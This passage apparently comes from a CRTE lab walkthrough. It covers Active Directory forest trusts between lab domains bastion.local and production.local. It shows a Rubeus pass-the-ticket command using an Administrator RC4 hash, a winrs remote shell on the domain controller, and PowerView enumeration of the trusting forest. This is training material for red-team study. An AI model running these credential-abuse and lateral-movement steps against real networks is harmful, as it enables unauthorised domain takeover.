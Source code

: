 - From [[3. CRTE/2. Lab Walkthrough/1st Forest (techcorp.local)/1. us.techcorp.local/1. Domain Enumeration|1. Domain Enumeration]] we discovered that the `bastion.local` Forest has a One-Way, Transitive, Inbound Forest Trust with the `production.local` Forest. This means that `bastion.local` is the trusteed domain and `production.local` is the trusting domain, so members of `bastion.local` can access resources on `production.local` but NOT the other way around.
- Since the `bastion.local` and `production.local` forests have a transitive trust, all domains inside those forests will inherit this trust but it DOES NOT extend to any other forests, such as `techcorp.local`.
- Moreover, since `production.local` is unreachable from our forest, `techocorp.local`, we will have to access `bastion.local` to enumerate the target domain and find possible ways to escalate our privileges there. This time, we will need to impersonate a domain user of `bastion.local`, since domain users of the `techcorp.local` forest are not trusteed entities in the target domain.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:Administrator /rc4:f29207796c9e6829aa1882b7cccfa36d /domain:bastion.local /dc:bastion-dc.bastion.local /ptt

<snip>

PS C:\Auditor> winrs -r:bastion-dc.bastion.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
#### Current Forest
```powershell
PS C:\Windows\Tasks> Get-Forest -Forest production.local
Get-Forest -Forest production.local


RootDomainSid         : S-1-5-21-1765907967-2493560013-34545785
Name                  : production.local
Sites                 : {Default-First-Site-Name}
Domains               : {production.local}
GlobalCatalogs        : {Production-DC.production.local}
ApplicationPartitions : {DC=DomainDnsZones,DC=production,DC=local, DC=ForestDnsZones,DC=production,DC=local}
ForestModeLevel       : 7
ForestMode            : Unknown
RootDomain            : production.local
Schema                : CN=Schema,CN=Configuration,DC=production,DC=local
SchemaRoleOwner       : Production-DC.production.local
NamingRoleOwner       : Production-DC.production.local
```
#### Forest Trusts
```powershell
PS C:\Windows\Tasks> Get-ForestTrust -Forest production.local
Get-ForestTrust -Forest production.local


TopLevelNames            :
ExcludedTopLevelNames    :
TrustedDomainInformation :
SourceName               : production.local
TargetName               : bastion.local
TrustType                : Forest
TrustDirection           : Outbound
```
#### Current Domain
```powershell
PS C:\Windows\Tasks> Get-Domain -Domain production.local
Get-Domain -Domain production.local


```